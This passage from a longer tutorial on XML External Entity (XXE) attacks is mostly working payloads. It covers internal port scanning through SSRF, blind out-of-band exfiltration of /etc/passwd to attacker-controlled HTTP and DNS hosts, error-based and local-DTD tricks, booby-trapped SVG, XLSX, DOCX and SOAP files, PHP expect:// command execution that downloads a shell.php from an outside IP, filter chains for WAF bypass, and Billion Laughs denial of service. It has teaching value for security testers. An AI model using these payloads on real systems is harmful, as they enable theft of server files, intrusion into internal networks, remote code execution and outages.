  <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin">
]>
<foo>&xxe;</foo>
```

If the entity content is reflected in the response, the attacker can read the response from internal services. This turns XXE into a proxy for accessing services that are not exposed to the internet.

### Internal Service Discovery

SSRF through XXE is not limited to reading a single URL. By varying the port and host in the entity declaration, attackers can map out the internal network:

```xml
<!-- Port scanning common services -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/">      <!-- HTTP -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:443/">     <!-- HTTPS -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">    <!-- Alt HTTP / Tomcat -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:8443/">    <!-- Alt HTTPS -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:3306/">    <!-- MySQL -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:5432/">    <!-- PostgreSQL -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:6379/">    <!-- Redis -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:9200/">    <!-- Elasticsearch -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:27017/">   <!-- MongoDB -->

<!-- Scanning internal network hosts -->
<!ENTITY xxe SYSTEM "http://192.168.1.1/">
<!ENTITY xxe SYSTEM "http://10.0.0.1/">
<!ENTITY xxe SYSTEM "http://172.16.0.1/">
```

The parser behavior reveals information about the target: a connection refused error means the port is closed, a timeout suggests a firewall is filtering traffic, and actual content in the response confirms the service is running and accessible. Even when the response is not reflected directly, timing differences between open and closed ports can confirm which services are running.

## Out-of-Band (OOB) Exfiltration via Malicious DTDs

Up to this point, all techniques assume the server sends back the file content or error message in its response. But what happens when the application does not return anything useful? The response is a generic 200 OK or blank page, and nothing we inject shows up anywhere. This is called **blind XXE** — the vulnerability exists but we cannot see the output directly.

The solution is to make the server send the data somewhere else — to a server we control. This is the "out-of-band" part: instead of reading the data in the response, we receive it on a separate channel. The XML parser's ability to fetch external resources works in our favor here because we can make it send HTTP requests that contain the stolen data in the URL.

The core idea is simple:

- Host a **malicious DTD** on an attacker-controlled server.
- Reference this DTD from the vulnerable XML payload.
- Use parameter entities in the malicious DTD to read local files and send their contents via HTTP requests.

**Why parameter entities?** This is where parameter entities (covered in [XML Fundamentals](#what-are-parameter-entities)) become essential. We need to chain multiple operations: first read a file, then embed the file contents into a URL, then make the parser visit that URL. Regular entities cannot do this because they only work in the document body. Parameter entities work inside DTD declarations so we can define one entity that reads a file, then define another entity that uses the first entity's value inside a URL.

Think of it like a pipeline: `read file → put content in URL → send HTTP request`. Each step is a parameter entity that feeds into the next one.

### Understanding the Escape Characters

Before we look at the payload, there is one more concept to understand. When you define an entity inside another entity (which is what we need for chaining), the XML parser gets confused by the `%` character because it tries to resolve it immediately. To prevent this, we use **XML character references** — a way of writing special characters using their numeric code:

- `&#x25;` = `%` (the percent sign)
- `&#x26;` = `&` (the ampersand)
- `&#x27;` = `'` (single quote)

So when you see `&#x25;` in a payload, just read it as `%`. The parser will convert it back to `%` at the right moment during processing.

### Step 1: Create a Malicious DTD

On the attacker machine, create a DTD file containing the malicious actions. In this example, the content is designed to read `/etc/passwd`:

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<your-collaborator-id>.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

**Explanation:**

- `<!ENTITY % file SYSTEM "file:///etc/passwd">` tells the parser to load the contents of `/etc/passwd` into the entity `%file`.
- `<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<your-collaborator-id>.oastify.com/?x=%file;'>">` creates a new entity declaration inside `%eval`. The `&#x25;` is the escaped form of `%`, required because we are defining a parameter entity inside another entity.
- `%eval;` expands and defines `%exfiltrate`.
- `%exfiltrate;` triggers the HTTP request to the attacker's server, sending the file contents as part of the query string.

### Step 2: Host the Malicious DTD

Once the malicious DTD is created, host it on a server reachable by the target application. A simple Python HTTP server works:

```bash
python3 -m http.server 80
```

Ensure the server is publicly accessible or reachable from the target environment. If DNS resolution might fail, use an IP address instead of a domain name.

### Step 3: XML Payload to Send to the Affected Application

Send an XML payload that loads the external DTD:

```xml
<!DOCTYPE message [
  <!ENTITY % remote SYSTEM "http://attacker.com/malicious.dtd">
  %remote;
]>
<message>bar</message>
```

**Explanation:**

- `<!ENTITY % remote SYSTEM "http://attacker.com/malicious.dtd">` instructs the parser to fetch the malicious DTD.
- `%remote;` expands the content of the malicious DTD, executing the exfiltration logic.

**Tip:** Use an IP address if DNS resolution is unreliable. Ensure the protocol (HTTP/HTTPS) matches what the target can access.

### Step 4: Monitor OOB Interaction

Use Burp Collaborator or a custom HTTP listener to capture the incoming request. Burp Collaborator provides a unique domain that logs all interactions, making it easy to confirm exploitation. When the parser processes the malicious DTD, you should see an HTTP request to your Collaborator domain with the contents of `/etc/passwd` in the query string.

[What is a blind XXE attack? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe/blind)

## Error-Based Blind XXE

OOB exfiltration requires the server to make outbound HTTP connections to our server. But what if the firewall blocks all outbound traffic? In that case, data cannot leave the network through HTTP requests. However, there is another channel we can use: **error messages**.

Many applications return error details when something goes wrong during XML parsing. If we can force the parser to include file contents inside an error message, we can read the data without any outbound connection. The trick is to make the parser try to access a non-existent file path that contains the stolen data. When the parser fails to open `file:///nonexistent/<contents of /etc/passwd>`, it generates an error message that includes the full path it tried to resolve — and that path contains the file contents we want.

For example, if the application returns error messages like these:

```json
{
  "REDACTED": "REDACTED",
  "errorMessage": "/etc/invalid-file (No such file or directory)"
}
```

```json
{
  "REDACTED": "REDACTED",
  "errorMessage": "/etc/shadow (Permission denied)"
}
```

This indicates that the XML parser is attempting to access the specified files and reporting filesystem errors. If we can trigger these errors, we can use them to **enumerate the filesystem** checking which files exist and which do not.

The simplest error-based payload references a non-existent file concatenated with the target file content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/&#x25;file;'>">
  %eval;
  %error;
]>
<foo></foo>
```

When the parser expands `%error` it attempts to resolve the invalid path triggering an error message that includes the contents of `/etc/passwd`:

```
errorMessage: "/nonexistent/root:x:0:0:root:/root:/bin/bash"
```

#### ⚠️ A Note on Parser Strictness

While the payload above is logically correct, it often fails in modern production environments. This is because the W3C XML Specification forbids the expansion of parameter entities (like %eval;) within the internal DTD subset (the part inside the [...] brackets) if they are used to define other markup.

Many modern, spec-compliant parsers (like those in Java, .NET, or Libxml2) will throw an error as soon as they see %eval; used this way. If your payload is rejected with a "Parameter entity references are not allowed in internal DTD subsets" error, you will need to use other techniques (like OOB exfiltration) to successfully read the file contents.

### Bonus track

The same way we can read files by attaching their content to the error message, we can twist the payload a little bit to enumerate other internal services. Instead of defining `file:///etc/passwd` we can define connections to internal resources and read the responses from them (for example an admin dashboard hosted at <http://localhost:8080>):

```xml
<!ENTITY % file SYSTEM "http://localhost:8080/admin/dashboard">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/&#x25;file;'>">
%eval;
%error;
```

## Denial of Service

XML has a feature that allows expanding entities in a recursive way by referencing them in a loop. While this cannot be considered an external entity attack, it is worth mentioning due to the impact it may cause in the application. If the parser is not well configured those entities will keep being called until the application consumes its resources. The most famous resource exhaustion attack is the Billion Laughs DoS. While this attack is mostly mitigated in modern XML parsers, it provides very useful context on how XML works.

```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE laugh [
    <!ELEMENT laugh ANY>
    <!ENTITY LOL "LOL">
    <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
    <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
    <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
]>
<laugh>&LOL3;</laugh>
```

The above payload makes the XML parser expand each of the entities, generating a large number of "LOLs". This payload would generate hundreds of thousands of "LOL" strings but a full scale payload would generate literally "Billions" of "LOL" strings.

Simpler variant (Quadratic Blowup):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY a "xxxxxxxxxxxxxxxx">
]>
<foo>&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;</foo>
```

Both attacks cause memory exhaustion, CPU exhaustion, disk exhaustion and denial of service.

-----

# Intermediate Techniques

These techniques require specific context to work: a particular entry point (SOAP, file upload), a specific parser behavior (XInclude support) or a misconfiguration in content negotiation. They are not rare but they depend on the target environment.

## XXE via File Upload

Many file formats that look harmless actually use XML internally and if the server parses them with a vulnerable parser we can inject our payloads.

### SVG File Upload

SVG files are XML-based and are often processed by image handling libraries.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="100" height="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

Save as `malicious.svg` and upload. If the application processes SVG files with a vulnerable XML parser, the entity may be reflected in rendered image metadata, server-side image generation output or error messages.

### XLSX (Excel) File Upload

XLSX files are ZIP archives containing XML files. The attack involves extracting, injecting and repackaging.

**Step 1:** Extract:

```bash
unzip document.xlsx -d xlsx_extracted/
```

**Step 2:** Inject into the XML files inside the archive. The most common injection points are `xl/sharedStrings.xml` (shared string table used for cell values), `xl/worksheets/sheet1.xml` (individual worksheet data) and `[Content_Types].xml` (content type definitions). Here is an example injecting into the workbook:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE workbook [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <sheets>
    <sheet name="Sheet1" sheetId="1" r:id="rId1"/>
  </sheets>
  <text>&xxe;</text>
</workbook>
```

**Step 3:** Repackage:

```bash
cd xlsx_extracted
zip -r ../malicious.xlsx *
cd ..
```

**Step 4:** Upload and monitor.

### DOCX (Word Document) File Upload

DOCX files follow a similar structure (ZIP-based XML). The critical file is `word/document.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<w:document xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
  <w:body>
    <w:p>
      <w:r>
        <w:t>&xxe;</w:t>
      </w:r>
    </w:p>
  </w:body>
</w:document>
```

Same extraction/repackaging process as XLSX.

### General strategy

The approach is the same for all XML-based formats (SVG, XLSX, DOCX, ODS, ODP, XML, XHTML): include a basic entity, upload, check output. If output is not reflected use blind XXE. Some servers validate MIME types so you may need to craft polyglot files.

## XXE in SOAP

SOAP is built on XML and remains widely used in enterprise systems (financial, government). Since SOAP inherently consumes XML, it is a natural target for XXE.

A typical SOAP request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header>
  </soap:Header>
  <soap:Body>
    <GetUser>
      <userId>123</userId>
    </GetUser>
  </soap:Body>
</soap:Envelope>
```

### Injection in the SOAP Body

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soap:Envelope [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUser>
      <userId>&xxe;</userId>
    </GetUser>
  </soap:Body>
</soap:Envelope>
```

### Injection in the SOAP Header

The header is also parsed and can be used as injection point:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soap:Envelope [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header>
    <Authentication>
      <token>&xxe;</token>
    </Authentication>
  </soap:Header>
  <soap:Body>
    <GetUser>
      <userId>123</userId>
    </GetUser>
  </soap:Body>
</soap:Envelope>
```

### SOAP Fault-Based Exfiltration

SOAP returns SOAP Fault messages on errors which are useful for blind XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soap:Envelope [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/&#x25;file;'>">
  %eval;
  %error;
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUser>
      <userId>test</userId>
    </GetUser>
  </soap:Body>
</soap:Envelope>
```

### WS-Addressing

Some SOAP services use WS-Addressing headers which provide another injection point:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soap:Envelope [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
               xmlns:wsa="http://www.w3.org/2005/08/addressing">
  <soap:Header>
    <wsa:ReplyTo>
      <wsa:Address>&xxe;</wsa:Address>
    </wsa:ReplyTo>
  </soap:Header>
  <soap:Body>
    <GetUser>
      <userId>123</userId>
    </GetUser>
  </soap:Body>
</soap:Envelope>
```

## XXE via XInclude

XInclude is an XML specification that allows including external XML documents without requiring a DOCTYPE declaration. This can bypass protections that specifically disable DOCTYPE processing.

XInclude uses `<xi:include>` to reference external files:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

The `parse="text"` attribute treats included content as plain text:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <section>
    <title>System Information</title>
    <content>
      <xi:include href="file:///etc/hostname" parse="text"/>
    </content>
  </section>
</document>
```

The `parse="xml"` attribute (default) includes content as XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <data>
    <xi:include href="file:///etc/xml/catalog" parse="xml"/>
  </data>
</document>
```

For OOB exfiltration:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <data>
    <xi:include href="http://attacker.com/include.xml"/>
  </data>
</document>
```

XInclude also supports fallback elements when the primary include fails:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <content>
    <xi:include href="file:///etc/passwd" parse="text">
      <xi:fallback>
        <e>File not accessible</e>
      </xi:fallback>
    </xi:include>
  </content>
</document>
```

## Content-Type Switching

Some APIs accept multiple content types and internally convert between formats. Many parsers don't validate the actual content against the declared content-type so we can try submitting XML payloads with different headers.

### JSON to XML

An API that accepts JSON may internally convert it to XML. We can try sending raw XML with a JSON content-type:

```http
POST /api/data HTTP/1.1
Host: example.com
Content-Type: application/json

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### Testing strategy

APIs with poor input validation might accept `text/xml`, `application/xml`, `application/json`, `text/plain` or even missing content-types with XML content. Try the XXE payload with various content-type headers, with null/missing headers, and with charset parameters (`application/xml; charset=utf-8`).

## Handling Files with XML-Special Characters

When targeting files that contain special XML characters (`<`, `>`, `&`) direct entity inclusion fails because those characters break XML parsing. This is a common limitation when trying to read config files, HTML files or source code.

CDATA sections allow inclusion of raw content without interpretation but entity expansion does not occur within CDATA sections so wrapping the entity in CDATA will not work:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
]>
<foo><![CDATA[&xxe;]]></foo>
```

The workaround is to use error-based exfiltration or OOB techniques since errors bypass normal XML parsing rules:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///path/to/file/with/special/chars.xml">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/&#x25;file;'>">
  %eval;
  %error;
]>
<foo></foo>
```

The error message will contain the file contents including the special characters. When exfiltrating via HTTP GET requests the special characters get automatically URL-encoded in the query string which also helps.

-----

# Advanced Techniques

These techniques require specific technology stacks, rare configurations or complex payload crafting. They are not the first thing to try but can be critical when standard techniques fail. This section also includes environment-specific escalation paths (like RCE through PHP expect:// or Java deserialization) which depend on very particular conditions in the target.

## Local System DTD Exploitation (Blind XXE)

When OOB connections are blocked and the application only returns errors, we can use pre-existing DTD files on the system to build our exfiltration chain without needing network access.

### Why Enumerate the Filesystem?

The goal of enumerating the filesystem is to locate **default DTD files** present on the system. These files can be leveraged to perform advanced XXE attacks because they often:

- Define **parameter entities** that can be overridden.
- Allow us to inject our own entities to manipulate output and include file contents indirectly.

### Identifying Injectable Parameter Entities in a DTD

Many system DTDs are publicly available for download. When you have access to the DTD file — either because it is distributed with a known package or available in its project repository — you can analyse it offline to find which parameter entities are safe to override.

The process is straightforward. Open the DTD and look for declarations of the form `<!ENTITY % name ...>`. These are parameter entity definitions. The ones that are useful for injection are those whose value is **referenced inside other DTD declarations** — specifically inside `<!ELEMENT>` or `<!ATTLIST>` declarations. When an entity is used this way, redefining it before the DTD loads lets you inject arbitrary content into the declaration that references it.

To find candidates quickly, grep for `%name;` patterns (where `name` matches a defined parameter entity) inside the body of other declarations:

```bash
grep -n 'ENTITY %' fonts.dtd          # list all parameter entity definitions
grep -n '%[a-z]' fonts.dtd            # list all parameter entity references
```

Cross-referencing the two outputs shows which defined entities are actually used inside declarations — those are your injection points. In `fonts.dtd` for example, `%expr;` appears inside an `<!ELEMENT>` declaration, which is why overriding it with a payload that breaks out of the element syntax and injects new entity declarations works.

An injectable entity looks like this in the DTD:

```
<!ELEMENT foo (%expr;)>
```

A non-injectable one looks like this — the entity is used only in the document body context or not referenced at all after its definition:

```
<!ENTITY % version "1.0">
```

The key signal is whether `%name;` appears inside a markup declaration. If it does, it is a candidate.

### Common DTD Paths — Linux

```
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/docbook/schema/dtd/4.5/docbookx.dtd
/usr/share/xml/xhtml/xhtml11-flat.dtd
/usr/share/xml/svg11/svg11-flat.dtd
/usr/share/sgml/docbook/ent/iso8879/ISOtech.ent
/usr/share/iso8879/iso8879.ent
/etc/xml/catalog
/usr/local/etc/xml/catalog
```

### Common DTD Paths — Windows

Windows DTD paths depend on the software installed on the server. Unlike Linux where many DTDs ship with the base system packages, Windows DTDs come from specific applications (Java, Office, database engines, etc). Not all of these will be present — it depends on what is installed:

```
C:\Windows\System32\wbem\xml\cim20.dtd
C:\Windows\System32\wbem\xml\cim10.dtd
C:\Program Files\Common Files\Microsoft Shared\OFFICE16\Cultures\OFFICE.ODF
C:\Program Files (x86)\Common Files\Adobe\Acrobat\ActiveX\AcroIEHelper.dtd
C:\Program Files\Java\jdk*\lib\dtds\*.dtd
C:\Program Files\IBM\SQLLIB\bin\dtds\*.dtd
```

To check if a DTD exists we load it and check the parser response:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
  %local_dtd;
]>
<message></message>
```

Error-based feedback indicates successful DTD loading. If we get a different error or no error at all we know the file exists.

### Exploitation Using fonts.dtd

- **Step 1:** Load the Local DTD:

```xml
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
  %local_dtd;
]>
<message></message>
```

- **Step 2:** Override Parameter Entities:
  `fonts.dtd` defines entities like `%expr` that can be overridden. We redefine them to include our malicious logic:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>%local_dtd;
]>
<message></message>
```

**Explanation:**

1. `%file` loads the contents of `/etc/passwd` from the local filesystem.
2. `%eval` creates a new parameter entity `%error` that references a non-existent file path concatenated with `%file` content.
3. When the parser expands `%error`, it attempts to resolve the invalid path, triggering an error message that includes the contents of `/etc/passwd`.

- **Step 3:** Trigger Error-Based Exfiltration:
  If the application returns error messages, the response will include something like:

```
errorMessage: "/nonexistent/root:x:0:0:root:/root:/bin/bash"
```

### Requirements for Robust Payloads

Creating a working payload for local DTD-based XXE exploitation requires careful attention to XML and DTD parsing rules. Below are the key requirements:

1. **Valid DTD Structure**

- The injected payload must maintain a syntactically valid DTD.
- All markup declarations (`<!ELEMENT>`, `<!ENTITY>`) must appear in a proper order.
- If the included DTD (`%local_dtd;`) contains markup declarations, use a **dummy element** (e.g., `<!ELEMENT aa (bb'>`) to absorb conflicts and prevent parser errors.

2. **Correct Entity Nesting and Escaping**

- Nested entity declarations inside another entity must be properly escaped:
  - Use `&#x25;` for `%`, `&#x26;` for `&` and `&#x27;` for quotes.
  - **Example**:
    
    ```xml
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///path/%file;'>">
    ```
- Failure to escape these characters often results in **markup declaration errors**.

3. **Order of Expansion**

- Define and expand entities in the correct sequence:
- Override entities first.
- Expand `%eval;` and `%error;` before including `%local_dtd;`.
- Incorrect ordering can cause the parser to reject the payload.

4. **Include a Structural Padding**

- When including external DTDs, add a placeholder declaration like:

```xml
  <!ELEMENT aa (bb'>
```

- This prevents syntax conflicts when the external DTD introduces new declarations.

5. **Use Parameter Entities for Injection**

- Always use **parameter entities** (`%`) for overriding and chaining.

6. **Error-Based Exfiltration Logic**

- Reference a non-existent file concatenated with the target file content.
- Example:

```xml
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
```

7. **Compatibility with Target DTD**

- The chosen local DTD must allow parameter entity overrides.
- Common candidates: `fonts.dtd`, `docbook.dtd`, `jspxml.dtd`

## DNS-Based OOB Exfiltration

When HTTP/HTTPS connections are blocked by firewall rules, DNS exfiltration provides an alternative. DNS traffic is rarely fully blocked so even if the HTTP request never reaches us, the DNS query still happens when the parser tries to resolve the domain:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.attacker.com/'>">
%eval;
%exfiltrate;
```

Monitor DNS queries on `attacker.com` to capture data. Tools like `dnsdumpster` or custom DNS servers can log the queries. Services like **Interactsh** also provide automatic DNS logging:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.interactsh-domain.com/'>">
%eval;
%exfiltrate;
```

There are two important limitations to keep in mind. First, DNS has strict length limits: each label (subdomain component) can be at most 63 characters and the full domain name cannot exceed 253 characters. Second — and this is easy to overlook — DNS labels only accept alphanumeric characters (a-z, 0-9) and hyphens. Characters like `:`, `/`, newlines and spaces will break the query. Since files like `/etc/passwd` are full of these characters, the payloads above will only work as-is for files with very simple content (like `/etc/hostname` which is typically a single word).

To exfiltrate anything meaningful we need to encode the data before embedding it in the subdomain. Base32 is the safest option because its output only contains A-Z and 2-7 — all valid DNS characters. Base64 works in some contexts but its output includes `+`, `/` and `=` which are also invalid in labels. In PHP environments we can combine `php://filter/convert.base64-encode` with the exfiltration payload to get clean ASCII before it hits the DNS query. For files longer than 63 characters, split the encoded data into chunks across multiple labels or multiple queries.

## PHP Wrappers

PHP's XML functions support protocol wrappers that extend XXE capabilities beyond simple file inclusion. These only work on PHP-based targets.

### expect:// Wrapper (Environment-Specific RCE)

The `expect://` wrapper executes system commands through PHP. This is one of the few paths from XXE to RCE but it requires the PHP `expect` extension to be installed and enabled which is disabled by default in modern PHP. In practice this is rare but when present the impact is critical:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<foo>&xxe;</foo>
```

Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

More examples:

```xml
<!ENTITY xxe SYSTEM "expect://id">
<!ENTITY xxe SYSTEM "expect://whoami">
```

**⚠️ Character restrictions in expect:// URIs.** There is a catch when running commands with arguments: PHP's XML parser treats the `expect://` URI literally and rejects it if it contains spaces, `>`, `&` or other special characters. A payload like `expect://cat /etc/passwd` will fail with an "Invalid URI" error. URL encoding (`%20`, `+`) does not help — the parser does not decode it. XML character references (`&#x20;`) do not work either.

The workaround is to replace spaces with `$IFS` — the shell Internal Field Separator variable. When the next argument starts with letters, wrap it in single quotes so the shell does not try to read it as part of the variable name:

```xml
<!-- cat /etc/passwd → replace spaces with $IFS -->
<!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd">

<!-- curl -O http://1.3.3.7/shell.php → $IFS + quotes for args -->
<!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7/shell.php'">
```

For complex commands like reverse shells it is easier to use `expect://` to download a script first and then execute it in a second request, rather than cramming the whole command into a single URI.

`expect://` requires the PHP `expect` extension which as mentioned is rarely present in production environments.

### php://filter Wrapper (Base64 Encoding)

The `php://filter` wrapper reads files with encoding filters. Useful for files that contain characters that would break XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

Output:

```
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgo...
```

Filters can be chained for WAF bypass:

```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode|convert.base64-encode/resource=file:///etc/passwd">
```

Other available filters:

```xml
<!ENTITY xxe SYSTEM "php://filter/string.strip_tags/resource=file:///var/www/html/index.php">
<!ENTITY xxe SYSTEM "php://filter/string.toupper/resource=file:///etc/passwd">
<!ENTITY xxe SYSTEM "php://filter/convert.quoted-printable-encode/resource=file:///etc/passwd">
<!ENTITY xxe SYSTEM "php://filter/string.rot13/resource=file:///etc/passwd">
```

### data:// and zip:// Wrappers

`data://` allows embedding data directly, useful for bypassing URL-based filters:

```xml
<!ENTITY xxe SYSTEM "data://text/plain,malicious content">
```

`zip://` reads files from ZIP archives without extraction. Useful for attacking uploaded XLSX/DOCX:

```xml
<!ENTITY xxe SYSTEM "zip:///path/to/archive.zip#filename.xml">
```

## Java Protocol Exploitation

Java's XML parsers support additional protocols. These only apply when the target runs Java.

### jar:// Protocol (Environment-Specific Escalation)

Accesses files within Java archives. In very specific scenarios where the application loads external JARs and deserialization gadgets are available in the classpath, this could potentially be chained into RCE. This is a rare condition but worth testing in Java environments:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "jar:file:///path/to/application.jar!/path/to/resource">
]>
<foo>&xxe;</foo>
```

### netdoc:// Protocol

Some Java implementations support `netdoc://`:

```xml
<!ENTITY xxe SYSTEM "netdoc:file:///etc/passwd">
```

### LDAP and RMI

In Java environments, `ldap://` and `rmi://` URIs in entity declarations can trigger JNDI (Java Naming and Directory Interface) lookups. It is worth noting that in most cases it is not the XML parser itself that resolves these protocols directly — the resolution is delegated to JNDI, which then performs the actual LDAP or RMI lookup. This is an important distinction because it means the attack depends on the JNDI configuration and Java version, not just the XML parser settings.

LDAP example:

```xml
<!ENTITY xxe SYSTEM "ldap://ldap.example.com/cn=users,dc=example,dc=com?objectClass?sub">
```

RMI example:

```xml
<!ENTITY xxe SYSTEM "rmi://internal-server:1099/object_name">
```

-----

# Troubleshooting Guide

|Symptom                           |Likely Cause                    |Solution                                           |
|----------------------------------|--------------------------------|---------------------------------------------------|
|"Malformed XML" error             |XML syntax error in payload     |Validate payload syntax; use XML validators        |
|"Unknown protocol: X"             |Typo in protocol name           |Use valid protocols: `file://`, `http://`, `ftp://`|
|No entity expansion in output     |Entity expansion disabled       |Try XInclude or wrapper techniques                 |
|No callback received from OOB     |Firewall blocking outbound      |Use DNS-based OOB; test from DMZ if possible       |
|File contents show only first line|Binary/special characters       |Use error-based or OOB exfiltration; use php://filter for encoding|
|DOCTYPE not allowed error         |DOCTYPE explicitly disabled     |Use XInclude or file upload techniques             |
|Entity limit exceeded             |Billion Laughs protection active|Use single entity; avoid recursive expansion       |
|403/500 on OOB callback           |WAF blocking the request        |Obfuscate URL; use different protocols             |
|Parameter entities not expanding  |Parser doesn't support them     |Use general entities; try XInclude                 |
|"Connection refused" on SSRF      |Target port not open            |Verify port; check firewall                        |
|Base64 decoding shows garbage     |Filter chain incorrect          |Test php://filter chains individually              |
|No error message feedback         |Application suppresses errors   |Use blind XXE with OOB exfiltration                |

-----

# Tools and Resources

## Security Testing Tools

|Tool                       |Purpose                                 |Usage                                              |
|---------------------------|----------------------------------------|---------------------------------------------------|
|**XXEinjector**            |Automated XXE payload generation        |`./xxeinjector.py -u http://target.com -f file`    |
|**oxml_xxe**               |XXE in Office documents (DOCX, XLSX)    |`python oxml_xxe.py generate -t xlsx`              |
